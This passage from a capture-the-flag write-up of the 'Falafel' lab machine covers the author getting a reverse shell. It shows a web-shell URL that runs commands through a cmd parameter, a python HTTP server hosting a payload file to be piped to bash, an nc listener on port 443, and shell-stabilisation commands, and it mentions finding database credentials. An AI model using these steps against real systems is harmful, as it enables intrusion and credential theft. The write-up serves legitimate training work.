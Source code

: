 I check that the connectivity to the machine is correct, after performing a test with `ping`. There are many ways to access the machine, but I will resort to a basic method and if you do not allow me I can increase the complexity of the attack. I create an **index.html** file with a Linux command that sends me a **Reverse Shell**, then I set up a local server with `python` on my attacking machine to make the file available, I open port **443** with `nc` to listen for a remote connection request and finally I run the command from my browser to access the malicious file and have its contents interpreted with `bash`. I finally succeeded in compromising the machine, but before starting the enumeration phase I perform a **Console treatment** and the first thing I find are database credentials, which may help me later.

> **Attacker Machine**:

```bash
sudo tcpdump -i tun0 icmp -n
# http://10.129.229.139/uploads/0321-2345_9f393f58f1f9c574/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.php?cmd=ping%20-c%201%2010.10.14.238
# :)

nvim index.html
cat !$
cat index.html
python3 -m http.server 80
sudo nc -nlvp 443
```

> **Victime Machine**:

```bash
whoami
# Console Treatment
script /dev/null -c bash
[Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_75.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_76.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_77.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_78.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_79.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_80.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
